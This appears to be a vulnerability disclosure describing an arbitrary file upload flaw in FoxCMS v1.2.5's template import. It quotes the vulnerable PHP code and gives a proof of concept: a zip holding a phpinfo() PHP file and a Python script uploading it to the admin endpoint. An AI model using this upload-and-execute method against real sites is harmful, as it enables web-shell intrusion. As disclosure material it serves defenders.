


## FoxCMS v1.2.5 File Upload Vulnerability

The latest version of FoxCMS v1.2.5 has a file upload vulnerability in the template upload functionality `app\admin\controller\LocalTemplate.php`, which allows attackers to upload a malicious zip archive, extract a PHP web shell, and execute commands.

### Debugging and Analysis

The vulnerability is in the controller file `app\admin\controller\LocalTemplate.php`:

```php
 public function import()
    {
        $allowedExts = array("zip");
        $temp = explode(".", $_FILES["file"]["name"]);
        $extension = end($temp);     // Get the file extension
        if (in_array($extension, $allowedExts)) {
            if ($_FILES["file"]["error"] > 0) {
                return ['code' => 0, 'msg' => "Error: " . $_FILES["file"]["error"]];
            } else {
                // Check if the 'upload' directory exists in the current directory
                // If it doesn't exist, you need to create it, and set the permissions to 777
                if (file_exists("uploads" . DIRECTORY_SEPARATOR . $_FILES["file"]["name"])) {
                    return ['code' => 0, 'msg' => $_FILES["file"]["name"] . " file already exists. "];
                } else {
                    $zipdown = new Zipdown();
                    $fileName = $_FILES["file"]["name"]; // Uploaded file name
                    $fName = $zipdown->cutStr($fileName); // Remove file extension
                    $tem = Template::where('template', $fName)->find();
                    if ($tem) {
                        return ['code' => 0, 'msg' => $fName . " model already exists. "];
                    }
                    $result = UploadFilesModel::uploadFile(DIRECTORY_SEPARATOR . "template" . DIRECTORY_SEPARATOR . "files");
                    if ($result['id'] > 0) {
                        $type = $this->request->param("type");
                        if ($type == "template") { // Model
                            $file_path = config('filesystem.disks.public.root') . DIRECTORY_SEPARATOR . $result['file'];
                            $file = new File($file_path); // Extract file
                            $dirname = config('filesystem.disks.public.root') . DIRECTORY_SEPARATOR . 'templates' . DIRECTORY_SEPARATOR; // Extraction directory

                            $r =  $zipdown->unZipFile($file, $dirname);
    ....
```

The key part here involves calling the `uploadFile` and `unZipFile` methods to handle the upload and extraction.

The `uploadFile` method directly uploads the file without any checks:
```php
    public function uploadFile($folder_name = 'files', $app = 1)
    {
        try {
            $file = request()->file('file');
            // Get file extension
            $ext = $file->getOriginalExtension();
            // Configuration settings
            $config = xn_cfg('upload');
            // Storage type
            $storage = $config['storage'];

            if ($storage == 1) {
                // Upload to Alibaba Cloud OSS
                $oss = new Oss();
                $file_path = $oss->putFile($file, $err, $folder_name);
                if (!$file_path) {
                    return ['code' => 0, 'msg' => $err];
                }
            } elseif ($storage == 2) {
                // Upload to Qiniu Cloud
                $qiniu = new Qiniu();
                $savename = date('Ymd') . '/' . md5((string) microtime(true)) . '.' . $ext;
                $file_path = $qiniu->putFile($savename, $file->getRealPath());
                if (!$file_path) {
                    return ['code' => 0, 'msg' => 'Upload failed'];
                }
            } else {
                // Upload to local server
                $folder = config('filesystem.disks.folder') . $folder_name; // File storage directory
                $savename = Filesystem::disk('public')->putFile($folder, $file);
                if (!$savename) {
                    return ['code' => 0, 'msg' => 'Upload failed'];
                }
                $file_path = $savename;
            }
```

After that, it proceeds to unzip the file without checking the contents, simply extracting it:

```php
public function unZipFile($file, $dirname)
    {
        if (!file_exists($file)) {
            return false;
        }
        // Instantiate zip object
        $zipArc = new \ZipArchive();
        // Open the file
        if (!$zipArc->open($file)) {
            return false;
        }
        // Extract the file
        if (!$zipArc->extractTo($dirname)) {
            // Close the zip file
            $zipArc->close();
            return false;
        }
        return $zipArc->close();
    }
```

From the debugging, we found that the extraction path is:

```r
/uploads/templates/
```

An attacker can upload a zip file containing a PHP web shell, which will then be executed.

### Exploiting the Vulnerability

Create a zip file with a `2.php` containing the following PHP code:

```php
<?php

phpinfo();
```

Then, write a script to upload the zip file:

```python
import requests

session = requests.session()

burp0_url = "http://test.com:80/index.php/admin9483/LocalTemplate/import"
burp0_cookies = {"index_hkcms_lang": "zh-cn", "admin_hkcms_lang": "zh-cn", "PHPSESSID": "d52d103f2d77e16ea326d86111ae1f42", "access_127_0_0_1": "1737855575"}

session.get(burp0_url, cookies=burp0_cookies)
# Path to the zip file to upload
file_path = r"C:\Users\86150\Desktop\2.zip"  # Replace with the actual path to your ZIP file

# Open the file and upload it
with open(file_path, 'rb') as f:
    files = {'file': (file_path, f, 'application/zip')}
    response = session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, files=files, data={"type": "template"})

# Output the response
print(response.text)
```

After uploading, the PHP code in the zip will be executed, and you can access it through the following path:

```r
/uploads/templates/2.php
```

